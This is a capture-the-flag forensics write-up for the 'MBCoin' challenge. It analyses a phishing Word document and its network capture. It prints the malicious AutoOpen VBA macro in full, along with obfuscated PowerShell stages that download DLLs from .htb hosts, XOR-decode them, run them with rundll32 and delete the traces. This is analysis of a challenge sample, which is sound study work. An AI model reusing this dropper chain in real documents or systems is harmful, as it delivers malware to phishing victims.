

+++
title = "MBCoin"
description = ""
weight = 2
+++

Challenge statement:\
`
We have been actively monitoring the most extensive spear-phishing campaign in recent history for the last two months. This campaign abuses the current crypto market crash to target disappointed crypto owners. A company's SOC team detected and provided us with a malicious email and some network traffic assessed to be associated with a user opening the document. Analyze the supplied files and figure out what happened.
`

This writeup is a story of collaboration, mistakes, and sleep deprivation. We had a great time.

What was the first mistake... probably starting the challenge around 1:15 AM. I had just sovled Lina's Invitation and should have stopped there but...

It started by downloading the challenge [files](forensics_mbcoin.zip), in which we can find a pcap and a doc. 

Opening the doc first, we can see a classic phishing document.\


Since we got a warning related to the macros when opening the file, it's worth to check out what there are.\


We can find the following macro wants to get executed when opening the file:
```vb
Rem Attribute VBA_ModuleType=VBAModule
Option VBASupport 1
Sub AutoOpen()
    Dim QQ1 As Object
    Set QQ1 = ActiveDocument.Shapes(1)
    Dim QQ2 As Object
    Set QQ2 = ActiveDocument.Shapes(2)
    RO = StrReverse("\ataDmargorP\:C")
    ROI = RO + StrReverse("sbv.nip")
    ii = StrReverse("")
    Ne = StrReverse("IZOIZIMIZI")
    WW = QQ1.AlternativeText + QQ2.AlternativeText
    MyFile = FreeFile
    Open ROI For Output As #MyFile
    Print #MyFile, WW
    Close #MyFile
    fun = Shell(StrReverse("sbv.nip\ataDmargorP\:C exe.tpircsc k/ dmc"), Chr(48))
    
    waitTill = Now() + TimeValue("00:00:05")
    While Now() < waitTill
    Wend
    MsgBox ("Unfortunately you are not eligable for free coin!")
    End
    
End Sub
```

This script tries to write the value of `QQ1.AlternativeText + QQ2.AlternativeText` in a file named pin.vbs, and then execute it. QQ1 and QQ2 are two shapes in the document.

Somehow, in my LibreOffice, I couldn't get the AlternativeText of the shapes.\


I asked someone on my team, and they were able to give me the two chunks of code:
```vb
Dim WAITPLZ, WS, k, kl
WAITPLZ = DateAdd(Chr(115), 4, Now())
Do Until (Now() > WAITPLZ)
Loop

LL1 = "$Nano='JOOEX'.replace('JOO','I');sal OY $Nano;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''http://priyacareers.htb/u9hDQN9Yy7g/pt.html'',''C:\ProgramData\www1.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
LL2 = "$Nanoz='JOOEX'.replace('JOO','I');sal OY $Nanoz;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''https://perfectdemos.htb/Gv1iNAuMKZ/jv.html'',''C:\ProgramData\www2.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
LL3 = "$Nanox='JOOEX'.replace('JOO','I');sal OY $Nanox;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''http://bussiness-z.htb/ze8pCNTIkrIS/wp.html'',''C:\ProgramData\www3.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
LL4 = "$Nanoc='JOOEX'.replace('JOO','I');sal OY $Nanoc;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''http://cablingpoint.htb/ByH5NDoE3kQA/vm.html'',''C:\ProgramData\www4.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
LL5 = "$Nanoc='JOOEX'.replace('JOO','I');sal OY $Nanoc;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''https://bonus.corporatebusinessmachines.htb/1Y0qVNce/tz.html'',''C:\ProgramData\www5.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"


HH9="po"
HH8="wers"
HH7="h"
HH6="ell "
HH0= HH9+HH8+HH7+HH6
Set Ran = CreateObject("wscript.shell")
Ran.Run HH0+LL1,Chr(48)
Ran.Run HH0+LL2,Chr(48)
Ran.Run HH0+LL3,Chr(48)
Ran.Run HH0+LL4,Chr(48)
Ran.Run HH0+LL5,Chr(48)
Wscript.Sleep(5000)
```

```vb
MM1 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww1.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'gl'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'KO'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'X'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"
MM2 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww2.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'pc'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'Au'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'P'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]};  if ($r.length -gt 0) {[System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"
MM3 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww3.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'WG'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'OL'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'s'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"
MM4 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww4.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'oN'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'Py'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'G'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"
MM5 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww5.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'IE'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'YL'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'a'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) {[System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"

Set Ran = CreateObject("wscript.shell")
Ran.Run HH0+MM1,Chr(48)
WScript.Sleep(500)
Ran.Run HH0+MM2,Chr(48)
WScript.Sleep(500)
Ran.Run HH0+MM3,Chr(48)
WScript.Sleep(500)
Ran.Run HH0+MM4,Chr(48)
WScript.Sleep(500)
Ran.Run HH0+MM5,Chr(48)

WScript.Sleep(15000)
OK1 = "cmd /c rundll32.exe C:\ProgramData\www.dll,ldr"
OK2 = "cmd /c del C:\programdata\www*"
OK3 = "cmd /c del C:\programdata\pin*"
Ran.Run OK1, Chr(48)
WScript.Sleep(1000)
Run.Run OK2, Chr(48)
Run.Run OK3, Chr(48)
```

Globally, what those two scripts chunk are doing is
* download a file from a website
* save it as wwwN.dll (N from 1 to 5)
* for each of them, apply a transformation on the data and save the output as www.dll
* finally execute the exported function named ldr of that www.dll
* clean everything up

Since powershell is using `[System.IO.File]::WriteAllBytes` to create the www.dll file(s) one after the other, only the last one will be kept to be ran. 

We can't access those websites, but this is where the pcap comes into play. Looking at the pcap, we can download two of the files : pt.html and vm.html. Those can also be known as www1.dll and www4.dll respectively.\
\


Somehow, the stream for vm.html was a bit weird, with the time of the packet #40 not being handled nicely. It didn't stop us from exporting the bytes as a file, and now, it's time to spin up a windows machine!

We can execute the following two lines individually. I modified the paths so they would point locally instead of into C:\programdata.
```ps1
$b = [System.IO.File]::ReadAllBytes((('www1.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'gl'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'KO'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'X'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('www'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}
#$b = [System.IO.File]::ReadAllBytes((('www2.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'pc'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'Au'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'P'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]};  if ($r.length -gt 0) {[System.IO.File]::WriteAllBytes((('www'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}
#$b = [System.IO.File]::ReadAllBytes((('www3.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'WG'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'OL'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'s'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('www'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}
$b = [System.IO.File]::ReadAllBytes((('www4.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'oN'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'Py'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'G'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('www'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}
#$b = [System.IO.File]::ReadAllBytes((('www5.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'IE'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'YL'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'a'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) {[System.IO.File]::WriteAllBytes((('www'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}
```

Once this is executed, we recover the two functional dlls. Or are they? Trying to run them with `rundll32.exe www.dll,ldr` gives me an error.\


Oh well, anyway, we're probably not meant to run them for real? I got another of my team member to run them, but they both just gave a messagebox asking if we were sure it was the one being ran on the system.

At that point, I figured that if it wasn't www1 nor www4 that we needed, I really had to find a way to get the last dll (www5) out of bonus.corporatebusinessmachines.htb. Unless something was missing from the challenge, the pcap really didn't have anything related to it.\


It took me a while to give up on finding www5.dll, but at some point, there is nothing much we can do with a simple failed dns query... I finally decided to go to sleep, which was a great idea.

Coming back to it in the morning, I took another look at the two dlls that I had, I started to check what kind of information there was. Using external tools, I could see timestamps, compiler information, sections, and codeview information : `Z:\hackthebox-submissions\202207-business-ctf-mbcoin\mbcoin\mbcoin\x64\Release\mbcoin.pdb`.

The information looks pretty much the same for both. A bit desperate because reversing isn't my strong suit, I tried to look at the first one (pt/www1) with hexdump -C. I know, I know, that's not reversing, and what hopes could I have to get anything out of it? At least I could then see the messagebox related information that one of my team member was able to get when running the dll.\


I did the same thing with the other dll (vm/www4), and.. I think my team member did a mistake when running both dlls, since in his case, they both gave the Oops message, but that second one is definitely different. Trying to finalize a challenge at 2AM may not be the best idea...\


After telling my team member, he tried again, and voilà.... :D\
